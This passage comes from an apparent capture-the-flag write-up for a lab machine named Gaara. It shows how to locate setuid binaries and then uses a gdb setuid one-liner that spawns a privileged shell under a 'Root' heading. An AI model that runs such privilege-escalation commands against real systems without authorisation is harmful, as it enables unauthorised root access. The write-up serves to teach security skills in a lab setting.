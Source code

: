 We use the following command to find all files with the setuid bit set, which can help us identify these potential privilege escalation opportunities:

`find / -perm -u=s -type f 2>/dev/null`

1. `find /`: The find command starts searching from the root directory (/) and traverses the entire file system.
2. `-perm -u=s`: This option specifies that the find command should look for files with the setuid bit set. The setuid bit (u=s) allows a file to be executed with the permissions of the file owner rather than the user running the file.
3. `-type f`: This restricts the search to regular files. We're not interested in directories or other types of files for this purpose.
4. `2>/dev/null`: This redirects any error messages (such as permission denied errors) to `/dev/null`, effectively silencing them. This helps keep the output clean and focused only on the results we are interested in.

```shell
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```
From here we now see files that have the setuid bit set. And now we can go over to a pretty neat page called [GTFO](https://gtfobins.github.io/). It contains a list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. Where this binaries can be used to perform various actions such as file read/write operations, privilege escalation and more.

So what is the Setuid? The (set user ID upon execution) bit is a special permission in Unix-like operating systems that allows the users to run an executable with the permissions of the executable's owner. They are particularly useful for programs that need to perform tasks requiring higher privileges than those of the user running the program. Hence can be exploited to do some privilege escalation.

![image](https://gist.github.com/assets/116626767/feae4e1c-53d1-43aa-94a9-cc0c75093eb3)
![image](https://gist.github.com/assets/116626767/feae4e1c-53d1-43aa-94a9-cc0c75093eb3)

## Root
```shell
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
```